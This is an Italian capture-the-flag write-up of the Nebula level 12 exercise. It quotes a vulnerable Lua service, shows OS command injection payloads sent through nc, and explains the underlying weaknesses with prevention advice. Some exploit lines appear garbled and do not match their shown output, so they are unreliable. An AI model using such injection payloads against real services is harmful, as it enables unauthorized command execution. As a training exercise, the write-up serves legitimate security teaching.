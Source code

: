 # Nebula-12

## Traccia

> There is a backdoor process listening on port 50001.
> 
> 
> To do this level, log in as the **level12** account with the password **level12**. Files for this level can be found in /home/flag12.
> 
> ### Codice Sorgente
> 
> ```lua
> local socket = require("socket")
> local server = assert(socket.bind("127.0.0.1", 50001))
> 
> function hash(password)
>   prog = io.popen("echo "..password.." | sha1sum", "r")
>   data = prog:read("*all")
>   prog:close()
> 
>   data = string.sub(data, 1, 40)
> 
>   return data
> end
> 
> while 1 do
>   local client = server:accept()
>   client:send("Password: ")
>   client:settimeout(60)
>   local line, err = client:receive()
>   if not err then
>       print("trying " .. line) -- log from where ;\
>       local h = hash(line)
> 
>       if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
>           client:send("Better luck next time\n");
>       else
>           client:send("Congrats, your token is 413**CARRIER LOST**\n")
>       end
> 
>   end
> 
>   client:close()
> end
> ```
> 

## SVOLGIMENTO

1. Conoscere il codice:
    1. Codice scritto in un linguaggio di programmazione leggero chiamato Lua, utilizzato come linguaggio di scripting di uso generico (es. MOD GTA, MOD Minecraft)
    2. Si tratta di un processo che rimane in ascolto sulla porta 50001
    3. Lo scopo del codice è quello di ricevere un input, crearne l’hash e confrontarlo con un determinato hash. 
    4. Questa linea è un pò particolare (linea 5):
        
        ```lua
        prog = io.popen("echo "..password.." | sha1sum", "r")
        ```
        
        La funzione io.popen permette di eseguire comandi di sistemi, e quei due punti prima e dopo la variabile password rappresentano l’operatore di concatenazione. 
        
        Quindi, la mia mente maligna, mi fa pensare che posso scrivere ciò che voglio nella variabile password visto che non ci sono controlli. Volendo essendo comandi di sistema possiamo concatenarli con un ; e eseguire più comandi come succede nella sfida CTF (non ricordo il numero).
        
        Facciamo una prima prova:
        
        ```bash
        level12@nebula:/home/flag12$ nc localhost 50001 #per effettuare la connessione al websocket
        ```
        
        Ora ci troveremo `Password:` . Proviamo ad inserire questo comando per farci stampare il nome di chi esegue il comando.
        
        ```bash
        	Password: $(whoami) > /tmp/teamCPV/prova1
        ```
        
        Il risultato è: `flag12` . Quindi possiamo vedere che abbiamo eseguito codice esterno dentro la funzione hash. 
        
        Come fatto prima proviamo ad eseguire getflag, in modo tale da prendere la bandiera.
        
        ```bash
        level12@nebula:/home/flag12$ nc localhost 50001
        	Password: r;mkdir /tmp/teamCPV;R/tmp/teamCPV/flag12.txt;4
        	Better luck next time
        
        level12@nebula:/home/flag12$ cat /tmp/team
        	You have successfully executed getflag on a target account
        	# VINTO :)
        ```
        

## Vulnerabilità

<aside>
🔥 OS COMMAND INJECTION

OS command injection flaws (CWE-78) allow attackers to run arbitrary
commands on the remote server. Because a command injection vulnerability may lead to compromise of the server hosting the web application, it is often considered a very serious flaw. In Lua, this kind of vulnerability occurs, for example, when a developer uses unvalidated user data to run operating system commands via the os.execute() or io.popen() Lua functions.

</aside>

<aside>
💡 Argument Injection / Modification

L'Argument Injection/Modification è una tecnica di attacco informatico in cui un attaccante modifica o inietta dati dannosi in un'applicazione attraverso l'utilizzo di input utente non validati o controllati. Questi dati possono essere utilizzati per modificare il comportamento dell'applicazione o per ottenere accesso non autorizzato a risorse o informazioni sensibili.

L'Argument Injection/Modification può essere utilizzata in diversi contesti, come ad esempio in applicazioni web che utilizzano parametri di query o form per elaborare le richieste degli utenti. In questo caso, un attaccante potrebbe modificare i parametri di input per eseguire codice dannoso sul server o per accedere a dati riservati.

Per prevenire l'Argument Injection/Modification, è importante validare e controllare tutti gli input utente in modo che siano conformi alle aspettative dell'applicazione. Ciò può essere fatto attraverso l'utilizzo di filtri di input, la limitazione dei caratteri consentiti e l'uso di metodi di crittografia per proteggere i dati sensibili. Inoltre, è importante mantenere l'applicazione aggiornata con le ultime patch di sicurezza per mitigare eventuali vulnerabilità note.

</aside>

<aside>
👾 Execution with Unnecessary privileges

La vulnerabilità Execution with Unnecessary privileges (esecuzione con privilegi non necessari) si verifica quando un'applicazione o un processo viene eseguito con privilegi più elevati di quelli necessari per svolgere le sue funzioni. Questo può consentire a un attaccante di sfruttare l'applicazione o il processo per eseguire codice dannoso o accedere a risorse o informazioni sensibili.

Un esempio comune di questa vulnerabilità è quando un'applicazione viene eseguita con privilegi di amministratore o root, anche se non è necessario per svolgere le sue funzioni. Ciò può consentire a un attaccante di sfruttare l'applicazione per eseguire codice dannoso con i privilegi elevati dell'amministratore o del root, il che potrebbe consentire all'attaccante di compromettere il sistema.

Per prevenire la vulnerabilità Execution with Unnecessary privileges, è importante limitare i privilegi di esecuzione dell'applicazione o del processo solo a quelli necessari per svolgere le sue funzioni. Ciò può essere fatto attraverso l'implementazione di una politica di sicurezza che limita l'accesso ai privilegi di amministratore o root solo ai casi in cui sono strettamente necessari. Inoltre, è importante monitorare costantemente l'uso dei privilegi dell'applicazione o del processo per rilevare eventuali anomalie o attività sospette.

</aside>
